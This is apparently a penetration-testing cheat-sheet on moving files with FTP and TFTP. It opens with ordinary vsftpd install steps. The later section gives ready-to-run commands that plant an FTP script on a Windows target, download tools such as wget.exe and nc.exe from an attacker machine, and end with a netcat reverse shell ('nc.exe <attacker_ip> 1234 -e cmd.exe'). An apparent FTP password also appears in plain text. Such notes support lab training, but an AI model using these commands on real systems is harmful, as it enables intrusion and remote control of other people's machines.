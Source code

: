 !!! info ""

### vsftpd

    #### Installing vsftpd

    ```bash
    sudo apt-get install vsftpd
    sudo nano /etc/vsftpd.conf
    ```

    locate **write_enable=YES** and remove the **#** infront of it and save the file changes.

    #### Restart vsftpd  

    ```bash
    sudo systemctl restart vsftpd
    ```

    #### purging vsftpd

    ```bash
    sudo apt purge vsftpd
    ```


!!! info ""

    #### another way

    ##### Set up a ftp downloading script on the target machine

    ```bash
    echo open IP 21 > ftp.txt
    echo USER acknak>> ftp.txt
    echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
    echo ftp >> ftp.txt
    echo bin >> ftp.txt
    echo GET wget.exe >> ftp.txt
    echo bye >> ftp.txt
    ```

    ##### Download the prepared file

    ```bash
    ftp -v -n -s:ftp.txt
    ```

    ##### Start tftp server on Kali

    ```bash
    aftpd start
    ```

    ##### Transfer files from Kali to Windows (from windows terminal)

    ```bash
    tftp -I IPADDRESS GET nameoffile.exe
    ```

    ##### You can have a shell using this

    ```bash
    echo open <attacker_ip> 21> ftp.txt
    echo USER offsec>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt
    nc.exe <attacker_ip> 1234 -e cmd.exe
    ```
